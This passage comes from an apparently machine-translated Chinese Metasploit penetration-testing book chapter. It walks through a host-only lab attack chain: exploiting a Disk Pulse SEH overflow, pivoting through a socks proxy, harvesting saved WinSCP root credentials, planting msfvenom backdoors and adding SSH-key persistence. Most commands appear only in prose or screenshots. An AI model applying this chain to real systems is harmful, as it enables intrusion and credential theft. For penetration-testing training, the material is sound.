

下一件事是在浏览器中仅将此地址设置为代理，或者在所有第三方命令行应用（如 Nmap 和 Metasploit）上使用`proxychains`作为前缀。我们可以配置浏览器，如以下屏幕截图所示：

确保从节的无代理中删除`localhost`和`127.0.0.1`。设置好代理后，我们只需浏览到端口`80`上的 IP 地址，检查是否可以到达端口`80`：



美好的我们可以看到这个应用，它说它是一个 Disk Pulse Enterprise 软件 v9.9.16，它是一个已知的易受攻击的版本。我们在 Metasploit 中有很多磁盘脉冲模块。让我们使用其中一个，如下所示：



是的！我是这个利用模块的原始作者之一。让我们先了解漏洞，然后再利用它。

# 漏洞分析-基于 SEH 的缓冲区溢出

该漏洞存在于 Disk Pulse 9.9.16 的 web 服务器组件解析`GET`请求时。攻击者可以手工创建恶意`GET`请求并导致 SEH 帧覆盖，这将导致攻击者获得对程序流的完全访问权。自 Disk Pulse 以管理员权限运行以来，攻击者将以最高级别的权限获得对系统的完全访问权限。

让我们利用该漏洞并利用系统进行如下攻击：



只需设置`RHOST`和`LPORT`（允许我们访问成功利用目标的网关端口），我们就可以利用系统了。我们可以看到，一旦我们运行了漏洞攻击，我们就打开了 MeterMeter 会话`5`，这标志着目标的成功妥协。我们可以使用`sessions -i`命令验证会话列表，如下所示：



让我们与会话`5`交互并检查我们的访问级别：

发出`getuid`命令，我们可以看到我们已经拥有了`NT AUTHORITY SYSTEM`，Windows 操作系统上最高级别的权限。

有关该漏洞的更多信息，请参阅：[http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-13696](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-13696)。

# 通过泄露密码管理器利用人为错误

拥有最高级别的权限，让我们按如下方式执行一些后期开发：

查找目标系统上安装的各种应用总是很好的，因为某些应用可能已将凭据保存到网络的其他部分。通过列举已安装应用的列表，我们可以看到 WinSCP5.7，它是一种流行的 SSH 和 SFTP 客户端。Metasploit 可以从 WinSCP 软件中获取保存的凭据。让我们运行`post/windows/gather/credentials/winscp`模块，检查 WinSCP 软件中是否保存了一些凭据：



太神了我们有网络中另一台主机的获救凭证，即`192.168.116.134`。好消息是保存的凭据是针对根帐户的，因此如果我们获得对该系统的访问权限，它将具有最高级别的权限。让我们使用在`ssh_login`模块中找到的凭证，如下所示：



因为我们已经知道用户名和密码，所以让我们为模块设置这些选项以及目标 IP 地址，如以下屏幕截图所示：

答对 了这是一次成功的登录，Metasploit 自动获得了一个系统外壳。但是，我们始终可以使用计量器外壳升级到更好的访问质量。让我们用`msfvenom`创建另一个后门，如下所示：



后门将侦听端口`1337`上的连接。但是，我们如何将此后门转移到受损主机？记住，我们运行了 socks 代理辅助模块并对配置进行了更改？使用`proxychains`关键字作为大多数工具的后缀将强制工具通过`proxychains`使用路径。所以，要传输这样一个文件，我们可以使用`scp`，如下截图所示：

我们可以看到，我们已经成功地传输了该文件。运行匹配处理程序，与我们对第一个系统所做的类似，我们将拥有来自目标的连接。让我们概括一下我们在本练习中获得的所有目标和课程，如下所示：

在本实践的真实示例中，我们通过本地攻击、人为错误和利用以最高权限运行的软件，破坏了三个系统并从中获得了最高权限。

# 重新审视案例研究

为了建立测试环境，我们将需要多个操作系统，主要有两个不同的纯主机网络。此外，我们还需要以下组件：

| **部件名称** | **型** | **使用的版本** | **网络详情** | **网络类型** |
| Kali Linux 虚拟机映像 | 操作系统 | 卡利轧制（2017.3）x64 | `192.168.174.128`（Vmnet8） | 仅主机 |
| Ubuntu 14.04 LTS | 操作系统 | 14.04（可靠的） | `192.168.174.132`（Vmnet8）192.168.116.129（Vmnet6） | 仅主机仅主机 |
| 视窗 7 | 操作系统 | 专业版 | 192.168.116.133（Vmnet6） | 仅主机 |
| Ubuntu 16.04 LTS | 操作系统 | 16.04.3 LTS（xenial） | 192.168.116.134（Vmnet6） | 仅主机 |
| PhpCollab | Web 应用 | 2.5.1 |  |  |
| 盘脉冲 | 企业磁盘管理软件 | 9.9.16 |  |  |
| WinSCP | SSH 和 SFTP | 5.7 |  |  |

# 修改方法

在整个练习过程中，我们执行了以下关键步骤：

1.  我们首先对目标 IP 地址进行 Nmap 扫描，即`192.168.174.132`。
2.  Nmap 扫描显示`192.168.174.132`处的端口`80`打开。
3.  接下来，我们对在端口`80`上运行的应用进行了指纹分析，发现 Apache 2.4.7 正在运行。
4.  我们尝试浏览到 HTTP 端口。然而，我们什么也找不到。
5.  我们运行`dir_scanner`模块在 Apache 服务器上执行基于字典的检查，并找到 PhpCollab 应用目录。
6.  我们使用`searchsploit`找到了 PhpCollab 的漏洞模块，必须将第三方漏洞导入 Metasploit。
7.  接下来，我们开发了该应用，并获得了对目标系统的有限用户访问权限。
8.  为了改进我们的访问机制，我们上传了一个后门可执行文件，并实现了更好的目标访问级别。
9.  为了获得根访问权限，我们运行了漏洞利用`suggester`模块，发现 overlayfs 权限提升漏洞将帮助我们实现对目标的根访问权限。
10.  我们从[下载了 overlayfs 漏洞 https://exploit-db.com/](https://exploit-db.com/) ，编译并运行它以获得对目标的根访问权限。

11.  使用之前生成的同一个后门，我们打开了另一个 MeterMeter 外壳，但这次使用 root 权限。

12.  我们使用 Metasploit 中的`sshkey_persistence`模块向系统添加了持久性。
13.  在目标上运行`arp`命令，我们发现有一个单独的网络连接到主机，在`192.168.116.0/24`的目标范围内。
14.  我们使用自动路由脚本向该网络添加了一条路由。
15.  我们使用 Metasploit 中的 TCP 端口扫描模块扫描通过`arp`命令找到的系统。
16.  我们看到系统的端口`80`是开放的。
17.  由于我们只能通过 MeterMeter 访问目标网络，因此我们使用 Metasploit 中的`socks4a`模块使其他工具通过 MeterMeter 连接到目标。
18.  运行 socks 代理，我们将浏览器配置为在端口`1080`上使用`socks4a`代理。

19.  我们通过浏览器打开`192.168.116.133`，看到它正在运行 Disk Pulse 9.9.16 web 服务器服务。
20.  我们在 Metasploit 中搜索磁盘脉冲，发现它容易受到基于 SEH 的缓冲区溢出漏洞的攻击。

21.  我们利用了该漏洞并获得了目标上的最高级别权限，因为软件以系统级权限运行。

22.  我们列举了已安装应用的列表，发现系统上安装了 WinSCP 5.7。
23.  我们看到 Metasploit 包含一个内置模块，用于从 WinSCP 获取保存的凭据。
24.  我们从 WinSCP 收集根凭证，并使用`ssh_login`模块在目标上获得根 shell。

25.  我们上传了另一个后门，以获得在目标上具有 root 权限的 MeterMeter 外壳。

# 总结和练习

在本章中，我们介绍了渗透测试所涉及的各个阶段。我们还了解了如何设置 Metasploit 并在网络上进行渗透测试。我们还回顾了 Metasploit 的基本功能。我们还研究了在 Metasploit 中使用数据库和使用 Metasploit 转向内部系统的好处。

完成本章后，我们配备了以下设备：

*   渗透测试各阶段的知识
*   在 Metasploit 中使用数据库的好处
*   Metasploit 框架的基础知识
*   了解漏洞利用和辅助模块的工作原理
*   了解如何连接到内部网络并配置到这些网络的路由
*   了解使用 Metasploit 进行渗透测试的方法

本章的主要目标是让您熟悉渗透测试阶段和 Metasploit 的基础知识。本章完全集中于为以下章节做准备。

为了充分利用从本章中获得的知识，您应该进行以下练习：

*   参考 PTES 标准，深入了解面向业务的渗透测试的所有阶段
*   在 Metasploit 框架中使用 overlayfs 权限提升模块
*   找到至少三个不属于 Metasploit 框架的不同漏洞，并将它们加载到 Metasploit 中
*   在 Windows 7 系统上执行后期开发，并确定五个最佳的后期开发模块
*   通过找到正确的持久性机制，并在执行此操作时检查是否有任何 AV 引发任何标志，从而在 Windows 7 上实现持久性
*   为 Windows、Linux 和 Mac 操作系统确定至少三种持久化方法

在下一章中，我们将深入了解编写脚本和构建 Metasploit 模块的疯狂世界。我们将学习如何使用 Metasploit 构建尖端模块，并学习一些最流行的扫描和身份验证测试脚本如何工作。